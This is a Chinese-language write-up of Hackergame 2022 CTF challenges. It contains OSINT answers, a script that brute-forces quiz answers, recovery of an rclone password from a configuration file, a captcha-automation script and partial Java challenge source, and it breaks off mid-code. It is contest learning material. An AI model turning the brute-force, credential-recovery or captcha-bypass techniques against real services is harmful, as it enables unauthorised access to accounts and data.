import AsciinemaPlayer from "../../../src/components/mdx/asciinema-player.tsx"

# 送你一个 Shell 当见面礼（逃

<AsciinemaPlayer src="./figlet.cast" rows={20} cols={90}/>
[](figlet.cast)

# Write Up Part I

我把 Write Up 分成好几个部分写只是为了防止右边导航栏溢出而已，没别的意思。一个小节里面标题堆得太多了会导致右边导航栏显示不下。

## 签到

打开签到题，就看到了经典的（对于我这种人工智能相关专业的人而言）手写数字识别。嗯。。。最后一个框倒计时 0 秒，很显然是不可能让你直接手签 2022 过掉的。

为了观察浏览器与服务器数据交流的格式，我手签了一个，点击提交按钮，发现直接跳转到了 http://202.38.93.111:12022/?result=2?5?

那么，我们就可以合理的怀疑 http://202.38.93.111:12022/?result=2022 这个网址能把我们心心念念的 flag 送给我们。果然，flag 就这样到手了。（然鹅此时一血已经被手快的人拿走了）



## 猫咪问答喵

参加猫咪问答喵，参加喵咪问答谢谢喵。

### 中国科学技术大学 NEBULA 战队（USTC NEBULA）是于何时成立的喵？

:::question

1. 中国科学技术大学 NEBULA 战队（USTC NEBULA）是于何时成立的喵？

提示：格式为 YYYY-MM，例如 2038 年 1 月即为 2038-01。

:::

Google 搜索 `中国科学技术大学 NEBULA 战队（USTC NEBULA）` 喵， 发现[第一个结果](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm)中提到喵

> 中国科学技术大学“星云战队（Nebula）”成立于 2017 年 3 月，“星云”一词来自中国科学技术大学 BBS“瀚海星云”，代表同学们对科学技术的无限向往和追求。战队现领队为网络空间安全学院吴文涛老师，现任队长为网络空间安全学院李蔚林、童蒙和武汉。战队核心成员包括了来自网络空间安全学院、少年班学院、物理学院、计算机学院等各个院系的同学，充分体现了我校多学院共建网络空间安全一级学科的特点。战队以赛代练，以赛促学，在诸多赛事中获得佳绩。

所以喵可以确定此题答案为 `2017-03` 喵.

### 请问这个 KDE 程序的名字是什么？

:::question

2. 2022 年 9 月，中国科学技术大学学生 Linux 用户协会（LUG @ USTC）在科大校内承办了软件自由日活动。除了专注于自由撸猫的主会场之外，还有一些和技术相关的分会场（如闪电演讲 Lightning Talk）。其中在第一个闪电演讲主题里，主讲人于 slides 中展示了一张在 GNOME Wayland 下使用 Wayland 后端会出现显示问题的 KDE 程序截图，请问这个 KDE 程序的名字是什么？

提示：英文单词，首字母大写，其他字母小写。

:::

Google 搜索 `中国科学技术大学 软件自由日 LUG@USTC` 喵，[一个来自 Google Groups 网站的搜索结果](https://groups.google.com/g/ustc_lug/c/aNRxC5ydY7A?pli=1) 中提到喵

> 往届活动和详细介绍见：https://lug.ustc.edu.cn/wiki/lug/events/sfd

打开此链接可以看到 2022 年 SFD 活动的详细信息喵，表格中有一行

> | 讲者   | 主题                                                     | 资料                                                                                                                                                       |
> | ------ | -------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
> | 陶柯宇 | 闪电演讲：《GNOME Wayland 使用体验：一个普通用户的视角》 | [Slides](https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/gnome-wayland-user-perspective.pdf) |

打开 Slides 喵, 在第 15 页可以找到题目所述截图喵。

图片里菜单项里 `Configure Kdenlive` 很显然写明喵应用程序的名称。



### Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少？

:::question

3. 22 年坚持，小 C 仍然使用着一台他从小用到大的 Windows 2000 计算机。那么，在不变更系统配置和程序代码的前提下，Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少？

提示：格式为 2 位数字的整数。

:::

Google 搜索 `Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少` 喵。然而第一页上没什么有效信息喵。自然而然想到用英文搜索喵。



谷歌直接把结果加粗丢给咱喵，好耶！

### 首个变动此行为的 commit 的 hash

:::question

4. 你知道 PwnKit（CVE-2021-4034）喵？据可靠谣传，出题组的某位同学本来想出这样一道类似的题，但是发现 Linux  内核更新之后居然不再允许 argc 为 0 了喵！那么，请找出在 Linux 内核 master  分支（torvalds/linux.git）下，首个变动此行为的 commit 的 hash 吧喵！


提示：格式为 40 个字符长的 commit 的 SHA1 哈希值，字母小写，注意不是 merge commit。

:::

首先当然要 Clone Linux 的代码仓库喵(这仓库好大喵。。。需要一段时间才能克隆下来喵)：

```bash
git clone https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git
```

然后在执行了 n 多次 Google 搜索之后喵，kxxt 发现加上搜索条件 `site:kernel.org ` 之后再搜索 `CVE-2021-4034` 就能在[第一个搜索结果](https://lore.kernel.org/lkml/20220126043947.10058-1-ariadne@dereferenced.org/T/)中看到相关的 PATCH 喵。

这个 PATCH 改动了 `fs/exec.c` 这个文件喵。咱喵可以合理的推测对于 `CVE-2021-4034` 的修复应该发生在这个文件喵（懒的管这个 PATCH 是否被合并了）。

用 VSCode 打开 Linux 仓库喵，等它加载完成喵（等待 Activating Extensions），打开  `fs/exec.c` 然后在 `TIMELINE` 面板（应该是 Git Lens 插件的功能）下面用肉眼搜索相关改动喵。



很快就找到了喵。右键复制 Commit ID, 此题就结束了喵。

### 你知道猫咪在连接什么域名吗？

:::question

5. 通过监视猫咪在键盘上看似乱踩的故意行为，不出所料发现其秘密连上了一个 ssh 服务器，终端显示 `ED25519 key fingerprint is MD5:e4:ff:65:d7:be:5d:c8:44:1d:89:6b:50:f5:50:a0:ce.`，你知道猫咪在连接什么域名吗？

提示：填写形如 example.com 的二级域名，答案中不同的字母有 6 个。

:::

这道题 kxxt 一开始真的没搜到喵。想要暴搜却发现状态空间太大了，搜不完喵。后来 Google 搜索 `public ssh server` 点进[第一个结果](https://serverfault.com/questions/185153/free-public-ssh-server-for-testing-purposes)找到了答案喵。

:::caution

其实我一开始搜索的时候就找到了这个帖子，不过我当时并没有耐心看完所有的回答喵。当时我看了 Accepted Answer 里没有我想找的东西就把这个 tab 杀掉了。

**现在想来看看其他回答也是很有必要的喵，毕竟 Accepted Answer 是提问者采纳的回答，并不是最适合所有人的回答。而且我第一次访问到这个链接的时候甚至都没有注意到第二个回答的 Up Vote 比 Accepted Answer 更多.**

:::



**想不到吧，sdf.org 除了 ssh server 之外还有 minecraft server (**



### “网络通”定价为 20 元一个月是从哪一天正式实行的？

:::question

6. 中国科学技术大学可以出校访问国内国际网络从而允许云撸猫的“网络通”定价为 20 元一个月是从哪一天正式实行的？

提示：格式为 YYYY-MM-DD，例如 2038 年 1 月 1 日，即为 2038-01-01。

:::

这道题目我是真的没有搜出来喵，不过得益于题目的状态空间比较小（一年 365 天，按 10 年算，不也就 3650 种情况喵？），最后我靠暴搜解出了这道题。

:::danger

其实咱喵一开始搜到了一些极其具有误导性的信息，比如：

- [这个页面](https://ustcnet.ustc.edu.cn/11173/list.htm) 上有两个关于网络通的链接，标的时间都是 2015 年喵
- 还有几处咱喵已经忘了，反正不是答案所在的年份喵

:::

话不多喵，直接上脚本喵：

```python brute-force-date.py
import requests

cookie = "session=你的session"

url = "http://202.38.93.111:10002/"
criterion = '你全部答错了喵！'


BASE_ANS = {'q1': "", 'q2': "", 'q3': "",
            'q4': "", 'q5': "", 'q6': ""}


def ans(val):
    return BASE_ANS | {'q6': val}

def print_and_return(x):
    print(x)
    return x

resps = [requests.post(url, headers={'Cookie': cookie}, data=ans(
    print_and_return(f'2003-{j:02}-{i:02}'))) for i in range(1, 32) for j in range(1, 13)]

print([resp for resp in resps if resp.status_code != 200])

print([resp.text for resp in resps if criterion not in resp.text])
```

代码很简单喵，我就略过不讲喵。更换年份直接修改脚本就可以喵。最后跑出来是 2003年3月1日喵。真的很搞人心态喵，咱喵从 2015 年一路试到 2003 年才作出来。

### 喵~

~~参加猫咪问答喵，参加喵咪问答谢谢喵。~~

喵喵结束，变回人形喽。

## 家目录里的秘密

:::question

实验室给小 K 分配了一个高性能服务器的账户，为了不用重新配置 VSCode, Rclone 等小 K 常用的生产力工具，最简单的方法当然是把自己的家目录打包拷贝过去。

但是很不巧，对存放于小 K 电脑里的 Hackergame 2022 的 flag 觊觎已久的 Eve 同学恰好最近拿到了这个服务器的管理员权限（通过觊觎另一位同学的敏感信息），于是也拿到了小 K 同学家目录的压缩包。

然而更不巧的是，由于 Hackergame 部署了基于魔法的作弊行为预知系统，Eve 同学还未来得及解压压缩包就被 Z 同学提前抓获。

为了证明 Eve 同学不良企图的危害性，你能在这个压缩包里找到重要的 flag 信息吗？

**公益广告：题目千万条，诚信第一条！解题不合规，同学两行泪。**

:::

解压缩之后直接搜索 `flag`, 第一个 `flag` 就有了，非常简单。



然后打开 rclone 的配置文件 `user/.config/rclone/rclone.conf`:

```ini
[flag2]
type = ftp
host = ftp.example.com
user = user
pass = tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
```

发现 `pass` 是一个晦涩难懂的字符串，我们可以断定 flag2 就藏在这段密码里。

然后搜索 Google 搜索 `decrypt rclone passwd in config`， 点进[第一个搜索结果](https://forum.rclone.org/t/how-to-retrieve-a-crypt-password-from-a-config-file/20051)。

帖子里提到了密码是用一个死密钥加密的，所以我们能够对它进行解密，同时作者也给出了一段破解密码的 golang 程序和 [Go Playground 链接]( https://play.golang.org/p/IcRYDip3PnE)。

> The password that is saved on `crypt` remotes on `~/.config/rclone.conf` is encrypted with a hardcoded key, therefore it can be recovered.
>
> I've copied some code from the rclone source tree and added a line to make it easier for people to run it.
>
> Just go to `https://play.golang.org/p/IcRYDip3PnE` and replace the string `YOUR PSEUDO-ENCRYPTED PASSWORD HERE` with the actual password that is written in your `~/.config/rclone.conf` file, then click "Run".

那我们把加密（或者说混淆）过的密码输入到里面，运行代码，就得到了 flag。



**吐槽**：你们 Go Playground 怎么不带语法高亮啊！！！！！！我眼睛要瞎了🫠🫠🫠🫠🫠🫠

## HeiLang

:::question

来自 Heicore 社区的新一代编程语言 HeiLang，基于第三代大蟒蛇语言，但是抛弃了原有的难以理解的 `|` 运算，升级为了更加先进的语法，用 `A[x | y | z] = t` 来表示之前复杂的 `A[x] = t; A[y] = t; A[z] = t`。

作为一个编程爱好者，我觉得实在是太酷了，很符合我对未来编程语言的想象，科技并带着趣味。

:::

我们直接写一个脚本将 Heilang 的玄学语法转换成正常 Python 语法, 然后运行转换后的脚本就得到了 flag：

<CH.Code>

```python transform.py
from itertools import chain
import sys
import re


def process_line(line):
    r = re.match('^a\[([\d\|\s]+)\] = (\d+)$', line)
    splited = r.group(1).split(' | ')
    rhs = r.group(2)
    return [f'a[{i}]={rhs}' for i in splited]


results = [process_line(line) for line in sys.stdin.readlines()]
results = chain(*results)
print('\n'.join(list(results)))
```

```shell 命令行
$ python transform.py <getflag.hei.py >hacked.py
$ python hacked.py                              
Tha flag is: flag{6d9ad6e9a6268d96-cc46fb634fc46edc}
```

</CH.Code>

## Xcaptcha

题目懒的贴了。

捕获几个网络请求能看出来要计算的数字在 html 里，用 [`htmlq`](https://github.com/mgdm/htmlq) 提取出来应该很方便。高精度？果断上 Python！

### 失败的尝试

嗯，这不就是一秒内完成三个高精度整数加法的事，这还难得到我？于是就有了下面的 Python 脚本和 bash 混合编程

<CH.Code>

```python calc.py
import sys
import requests

lines = sys.stdin.readlines()
ans = [eval(line.split()[0]) for line in lines]

cookie = "从浏览器里复制出来的Cookie（此处有坑）"

r = requests.post('http://202.38.93.111:10047/xcaptcha', headers={
    "Cookie": cookie
}, data={
    "captcha1": ans[0],
    "captcha2": ans[1],
    "captcha3": ans[2],
})

print(r.text)
```

---

```shell 命令行
http 202.38.93.111:10047/xcaptcha 'Cookie: 你的Cookie' | htmlq '.form-group > label' --text | python calc.py
```

</CH.Code>

WoC！怎么TLE了？？？我明明没有超时呀？？？于是 kxxt 就被卡（qia, 三声）在这里很久

```html response
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/static/bootstrap/css/bootstrap.min.css">
    <title>Xcaptcha</title>
  </head>
  <body>
    <div class="container px-3 py-3">
        <h1>AGI 核心机房 准入验证</h1>
        
        <p>验证失败：超过 1 秒限制</p>
        
        <a href="/xcaptcha"></a>
    </div>
  </body>
</html>
```

### 修正

后来我用 `httpie` 手动和题目交互，发现原来是 GET 请求有对 Cookie 做修改。而我之前一直用的从浏览器里复制出来的 Cookie 😢😭😓。

然后就直接把所有逻辑都写在 Python 里了，因为把新 Cookie 传给 Python 不是很方便：

<CH.Code>

```python calc.py
import re
import requests


cookie = "你的 Cookie"
resp = requests.get('http://202.38.93.111:10047/xcaptcha',
                    headers={"Cookie": cookie})
text = resp.text
cookie = resp.headers['Set-Cookie']
mat = re.findall(r"(\d+)\+(\d+) 的结果是？", text)

r = requests.post('http://202.38.93.111:10047/xcaptcha', headers={
    "Cookie": cookie
}, data={
    "captcha1": int(mat[0][0])+int(mat[0][1]),
    "captcha2": int(mat[1][0])+int(mat[1][1]),
    "captcha3": int(mat[2][0])+int(mat[2][1]),
})

print(r.text)
```

---

```html response
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/static/bootstrap/css/bootstrap.min.css">
    <title>Xcaptcha</title>
  </head>
  <body>
    <div class="container px-3 py-3">
        <h1>AGI 核心机房 准入验证</h1>
        <p>验证成功。</p>
        
        <p>flag{head1E55_br0w5er_and_ReQuEsTs_areallyour_FR1ENd_6334c73851}</p>
    </div>
  </body>
</html>
```

</CH.Code>

这不，flag 到手了，也没有那么麻烦吗。。。。

## 旅行照片 2.0（照片分析)

丢给一个在线 EXIF 信息查看器就能得到答案。
推荐：https://exifdata.com/

从众多小米手机的图像中浏览了一番，发现是红米 Note 9: https://www.wikiwand.com/zh-hans/Redmi_Note_9

不过航班我是真的不会找。日本上空这么多航班，我怎么知道是哪一个？？？（也没找到免费的能看五月份航班数据的网站）

## 猜数字

一打开 `GuessNumber.jvav`, 一股“企业级”应用开发的味道便扑面而来。

<CH.Section>

首先是一屏 [_`import`_ s](focus://imports#1:32)

<CH.Code lineNumbers={true}>

```java imports
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.net.InetSocketAddress;
import java.nio.ByteBuffer;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.security.GeneralSecurityException;
import java.security.MessageDigest;
import java.security.PublicKey;
import java.security.SecureRandom;
import java.security.Signature;
import java.security.cert.CertificateFactory;
import java.util.Base64;
import java.util.List;
import java.util.Locale;
import java.util.Map;
import java.util.Objects;
import java.util.Optional;
import java.util.OptionalDouble;
import java.util.Random;
import java.util.Stack;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.ForkJoinPool;
import java.util.regex.Pattern;

import javax.xml.stream.XMLEventReader;
import javax.xml.stream.XMLInputFactory;
import javax.xml.stream.XMLOutputFactory;
import javax.xml.stream.XMLStreamException;
import javax.xml.stream.XMLStreamWriter;
```

```java GuessNumber
public final class GuessNumber {
   private static final Path CERT;
   private static final Path INDEX;
   private static final Path STYLE;
   private static final Path SOURCE_FILE;

   private static final Map<Token, State> STATES;
   private static final XMLInputFactory XML_INPUTS;
   private static final XMLOutputFactory XML_OUTPUTS;
   
   private static final String PORT = "GUESS_NUMBER_PORT";
   private static final String FLAG_PREFIX = "GUESS_NUMBER_FLAG_PREFIX";
   private static final String FLAG_SECRET = "GUESS_NUMBER_FLAG_SECRET";
   private static final String CERT_FILE_PATH = "GUESS_NUMBER_CERT_FILE_PATH";
   private static final String INDEX_FILE_PATH = "GUESS_NUMBER_INDEX_FILE_PATH";
   private static final String STYLE_FILE_PATH = "GUESS_NUMBER_STYLE_FILE_PATH";
   private static final String SOURCE_FILE_PATH = "GUESS_NUMBER_SOURCE_FILE_PATH";

   static {
      STATES = new ConcurrentHashMap<>();
      XML_INPUTS = XMLInputFactory.newFactory();
      XML_OUTPUTS = XMLOutputFactory.newFactory();
      CERT = Path.of(System.getenv().getOrDefault(CERT_FILE_PATH, "cert.pem"));
      INDEX = Path.of(System.getenv().getOrDefault(INDEX_FILE_PATH, "index.html"));
      STYLE = Path.of(System.getenv().getOrDefault(STYLE_FILE_PATH, "github-markdown.css"));
      SOURCE_FILE = Path.of(System.getenv().getOrDefault(SOURCE_FILE_PATH, "GuessNumber.java"));
   }

   ...
}
```

```java State.collect
  private record State(Token token, int passed, int talented, double number, OptionalDouble previous) {
      private static final Random RNG = new SecureRandom();
	  ...
      private void collect(XMLStreamWriter writer) throws XMLStreamException {
          writer.writeStartDocument();
          // <state>
          writer.writeStartElement("state");
          // <name>
          writer.writeStartElement("name");
          writer.writeCharacters(this.token.user());
          writer.writeEndElement();
          // </name><passed>
          writer.writeStartElement("passed");
          writer.writeCharacters(Integer.toString(this.passed));
          writer.writeEndElement();
          // </passed><talented>
          writer.writeStartElement("talented");
          writer.writeCharacters(Integer.toString(this.talented));
          writer.writeEndElement();
          // </talented>
          if (this.previous.isPresent()) {
              // <guess>
              var previous = this.previous.getAsDouble();

              var isLess = previous < this.number - 1e-6 / 2;
              var isMore = previous > this.number + 1e-6 / 2;

              writer.writeStartElement("guess");
              writer.writeAttribute("less", Boolean.toString(isLess));
              writer.writeAttribute("more", Boolean.toString(isMore));
              writer.writeCharacters(Double.toString(previous));
              writer.writeEndElement();
              // </guess>
          }
          if (this.talented > 0) {
              // <flag>
              writer.writeStartElement("flag");
              writer.writeCharacters(this.token.flag());
              writer.writeEndElement();
              // </flag>
          }
          writer.writeEndElement();
          // </state>
      }
  }
```

```java State.update
private record State(Token token, int passed, int talented, double number, OptionalDouble previous) {
    ...
	private State update(XMLEventReader reader) throws XMLStreamException {
        var result = Optional.<State>empty();
        var nameStack = new Stack<String>();
        while (reader.hasNext()) {
            var event = reader.nextEvent();
            if (event.isStartElement()) {
                var name = event.asStartElement().getName().getLocalPart();
                nameStack.push(name);
            }
            if (event.isEndElement()) {
                if (nameStack.empty()) throw new XMLStreamException();
                var name = event.asEndElement().getName().getLocalPart();
                if (!name.equals(nameStack.pop())) throw new XMLStreamException();
            }
            if (event.isCharacters()) {
                var path = List.of("state", "guess");
                if (!path.equals(nameStack)) continue;
